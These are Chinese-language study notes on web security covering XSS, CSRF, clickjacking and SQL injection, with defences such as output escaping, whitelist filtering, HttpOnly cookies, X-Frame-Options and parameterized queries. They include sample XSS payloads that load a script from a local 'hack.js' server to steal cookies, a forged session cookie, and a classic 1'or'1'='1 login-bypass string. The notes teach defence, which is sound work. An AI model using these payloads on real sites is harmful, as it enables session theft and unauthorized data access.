

我们必须理解这么几个方面：sql 注入、xss、csrf、cookie 安全、密码安全等等。
sql 注入，要理解 sql 注入的场景，它的原理是什么，当前的数据库的解决方案是什么？（不知道密码，利用一些特定的 sql 语句，返回用户信息）
xss 攻击，常见的攻击场景，什么类型的网站容易被 xss 攻击，整个流程的原理是什么？
csrf 攻击，其实就是一个钓鱼网站，要理解为什么会收到攻击，应该采取什么策略进行防御。
cookie 安全，要理解为什么用 token，优势等。
密码安全，主要是用户登陆，用户数据提交，加密，存入数据库的一整个流程。
其次，其实还有 http 和 https 的问题等等。

# XSS

[不错的](https://my.oschina.net/u/4446873/blog/3229798/print)

概念: Cross Site Scripting 跨站脚本攻击

比如，一个博客网站，我发表一篇博客，其中嵌入 script 脚本 脚本内容 获取 cookie，发送到我的服务器(服务端配合跨域)，
发布这篇博客，有人查看，轻松拿到了访问者的 cookie

XSS (Cross-Site Scripting)，跨站脚本攻击，因为缩写和 CSS 重叠，所以只能叫 XSS。跨站脚本攻击是指通过
存在安全漏洞的 Web 网站注册用户的浏览器内运行非法的非本站点 HTML 标签或 JavaScript 进行的一种攻击。

跨站脚本攻击有可能造成以下影响:

- 利用虚假输入表单骗取用户个人信息。
- 利用脚本窃取用户的 Cookie 值，被害者在不知情的情况下，帮助攻击者发送恶意请求。
- 显示伪造的文章或图片。

1. XSS 攻击分类

```js
// 普通 http://localhost:3000/?from=china // alert尝试 http://localhost:3000/?from=<script>alert(3)</script> // 获取Cookie http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script> // 短域名伪造 https://dwz.cn/ // 伪造cookie入侵 chrome document.cookie="kaikeba:sess=eyJ1c2VybmFtZSI6Imxhb3dhbmciLCJfZXhwaXJlIjoxNTUzNTY1MDAxO DYxLCJfbWF4QWdlIjo4NjQwMDAwMH0="
```

2. 存储型 - 存储到 DB 后读取时注入

```js
// 评论 <script>alert(1)</script> // 跨站脚本注入 我来了<script src="http://localhost:4000/hack.js"></script>
```

XSS 攻击的危害 - Scripting 能干啥就能干啥
获取页面数据
获取 Cookies
劫持前端逻辑
发送请求
偷取网站的任意数据
偷取用户的资料
偷取用户的秘密和登录态
欺骗用户

3. 防范手段

```
 ejs转义小知识
<% code %>用于执行其中javascript代码； <%= code %>会对code进行html转义； <%- code %>将不会进行转义
```

- head

```js
ctx.set('X-XSS-Protection', 0) // 禁止XSS过滤
http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```

0 禁止 XSS 过滤。
1 启用 XSS 过滤（通常浏览器是默认的）。 如果检测到跨站脚本攻击，浏览器将清除页面（删除不安全的部
分）。
1;mode=block 启用 XSS 过滤。 如果检测到攻击，浏览器将不会清除页面，而是阻止页面加载。
1; report= (Chromium only)
启用 XSS 过滤。 如果检测到跨站脚本攻击，浏览器将清除页面并使用 CSP report-uri 指令的功能发送违规
报告。

- CSP

* 转义字符 尖括号啊单双引号做一些转义 就不会执行了 比如我们的 script 标签
* 黑名单
  用户的输入永远不可信任的，最普遍的做法就是转义输入输出的内容，对于引号、尖括号、斜杠进行转义

```js
npm - xss
替换特殊字符： 如 < 变成 &lt; > 变成&gt
<script>变为  &lt;script&gt;,直接显示，而不会作为脚本执行
前后端都要替换
function escape(str) {
  str = str.replace(/&/g, '&amp;');
  str = str.replace(/</g, '&lt;');
  str = str.replace(/>/g, '&gt;');
  str = str.replace(/"/g, '&quto;');
  str = str.replace(/'/g, '&#39;');
  str = str.replace(/`/g, '&#96;');
  str = str.replace(/\//g, '&#x2F;');
  return str;
}
```
富文本来说，显然不能通过上面的办法来转义所有字符，因为这样会把需要的格式也过滤掉。对于这种情
况，通常采用白名单过滤的办法，当然也可以通过黑名单过滤，但是考虑到需要过滤的标签和标签属性实在
太多，更加推荐使用白名单的方式。

- 白名单

```js
const xss = require('xss');
let html = xss('<h1 id="title">XSS Demo</h1><script>alert("xss");</script>');
// -> <h1>XSS Demo</h1>&lt;script&gt;alert("xss");&lt;/script&gt; console.log(html)
```

- HttpOnly Cookie
这是预防 XSS 攻击窃取用户 cookie 最有效的防御手段。Web 应 用程序在设置 cookie 时，将其属性设为
HttpOnly，就可以避免该网页的 cookie 被客户端恶意 JavaScript 窃取，保护用户 cookie 信息。
<!-- response.addHeader("Set-Cookie", "uid=112; Path=/; HttpOnly") -->

# CSRF

CSRF(Cross Site Request Forgery)，即跨站请求伪造，是一种常见的 Web 攻击，它利用用户已登录的身份，
在用户毫不知情的情况下，以用户的名义完成非法操作。

- 用户已经登录了站点 A，并在本地记录了 cookie
- 在用户没有登出站点 A 的情况下（也就是 cookie 生效的情况下），访问了恶意攻击者提供的引诱危险站点 B
  (B 站点要求访问站点 A)。
- 站点 A 没有做任何 CSRF 防御

- demo
```js
⼀个典型的CSRF攻击有着如下的流程：
1. 受害者登录 a.com ，并保留了登录凭证（Cookie） 
2. 攻击者引诱受害者访问了 b.com b.com 向 a.com 发送了⼀个请求： a.com/act=xx 浏览器会默认携带a.com的Cookie 
3. a.com接收到请求后，对请求进⾏验证，并确认是受害者的凭证，误以为是受害者⾃⼰发送的请求
4. a.com以受害者的名义执⾏了act=xx 
5. 攻击完成，攻击者在受害者不知情的情况下，冒充受害者，让a.com执⾏了⾃⼰定义的操作
```

CSRF 攻击危害

- 利用用户登录态
- 用户不知情 利用登录状态
- 完成业务请求
- 盗取用户资金（转账，消费）
- 冒充用户发帖背锅
- 损害网站声誉

防御

- 禁止第三方网站带 Cookie - 有兼容性问题
- Referer Check - Https 不发送 referer 来源 referer
- 验证码

## 如何预防CSRF?
CSRF通常从第三⽅⽹站发起，被攻击的⽹站⽆法防⽌攻击发⽣，只能通过增强⾃⼰⽹站针对CSRF的防护能⼒来提升 安全性。

CSRF的两个特点： CSRF（通常）发⽣在第三⽅域名。 CSRF攻击者不能获取到Cookie等信息，只是使⽤。
针对这两点，我们可以专⻔制定防护策略，如下： 阻⽌不明外域的访问 同源检测 Samesite Cookie 提交时要求附加本域才能获取的信息 CSRF Token 双重Cookie验证 因此我们可以针对性得进⾏预防


# 点击劫持 - clickjacking

点击劫持是一种视觉欺骗的攻击手段。攻击者将需要攻击的网站通过 iframe 嵌套的方式嵌入自己的网页中，
并将 iframe 设置为透明，在页面中透出一个按钮诱导用户点击。

防御？

- X-FRAME-OPTIONS
  用 iframe 嵌套的点击劫持攻击。
  该响应头有三个值可选，分别是
  DENY，表示页面不允许通过 iframe 的方式展示
  SAMEORIGIN，表示页面可以在相同域名下通过 iframe 的方式展示
  ALLOW-FROM，表示页面可以在指定来源的 iframe 中展示
  ctx.set('X-FRAME-OPTIONS', 'DENY')

# SQL 注入

```
// 填入特殊密码 1'or'1'='1 // 拼接后的SQL SELECT * FROM test.user WHERE username = 'laowang' AND password = '1'or'1'='1'
```

防御？
所有的查询语句建议使用数据库提供的参数化查询接口\*\*，参数化的语句使用参数而不是将用户输入变量嵌
入到 SQL 语句中，即不要直接拼接 SQL 语句。例如 Node.js 中的 mysqljs 库的 query 方法中的 ? 占位参
数。

```
// 错误写法 const sql = ` SELECT * FROM test.user WHERE username = '${ctx.request.body.username}' AND password = '${ctx.request.body.password}' `console.log('sql', sql) res = await query(sql) // 正确的写法 const sql = ` SELECT * FROM test.user WHERE username = ? AND password = ? `console.log('sql', sql, ) res = await query(sql,[ctx.request.body.username, ctx.request.body.password])
```

严格限制 Web 应用的数据库的操作权限**，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的
减少注入攻击对数据库的危害
后端代码检查输入的数据是否符合预期**，严格限制变量的类型，例如使用正则表达式进行一些匹配处理。
对进入数据库的特殊字符（'，"，\，<，>，&，\*，; 等）进行转义处理，或编码转换\*\*。基本上所有的后端
语言都有对字符串进行转义处理的方法，比如 lodash 的 lodash.\_escapehtmlchar 库。

# 请求劫持
